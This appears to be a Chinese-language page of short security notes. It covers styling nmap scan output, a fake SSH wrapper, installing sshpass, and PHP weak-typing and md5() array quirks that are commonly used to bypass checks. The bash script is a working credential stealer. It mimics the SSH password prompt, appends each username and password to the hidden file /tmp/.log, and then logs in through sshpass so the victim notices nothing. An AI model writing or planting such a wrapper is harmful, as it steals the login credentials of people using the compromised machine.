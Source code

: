 - nmap结果使用bootstrap美化：

  ```
  nmap -sS -T4 -A -sC -oA scanme --stylesheet https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl scanme.nmap.org scanme2.nmap.org

  xsltproc -o scanme.html nmap-bootstrap.xsl scanme.xml
  ```

- 伪装SSH，记录输入密码，类似键盘记录样：

  ```
  #!/bin/bash

  if [ $# != "1" ]    #加个简单的判断
  then 
      /usr/bin/ssh
  else
      echo -e "${1}'s password: \c"
      read -s pass
      echo $1":"$pass >> /tmp/.log    #输出结果更美观
      echo ""
      /tmp/.sshpass -p "$pass" /usr/bin/ssh ${1}
  fi
  ```

- SSH只接受标准化输入的内容，也就是不能使用的常见的管道符将密码发送给SSH连接，选择使用 **sshpass**将密码发送给SSH连接 下载地址：<https://sourceforge.net/projects/sshpass/> 下载后，编译安装使用：

  ```
  ./configure
  make install

  ./sshpass -p "password" ssh user@remotehost
  ```

- PHP本身就是一门弱类型的的语言，我们在给PHP定义变量的时候，是不需要声明变量的数据类型的，PHP会根据我们设置的变量值，自动将变量转换为正确的数据类型。

- 在PHP中有两种比较的符号，分别是“==”和“===”。在进行“==”比较的时候，会先将字符串类型转化成相同的在进行比较。在进行“===”比较的时候，会先判断两种字符串的类型是否相等，然后再进行比较。

- PHP的md5()需要的是一个string类型的参数，当我们传递的是一个数组的时候，md5()不会报错，但是无法正常的执行md5()，返回null。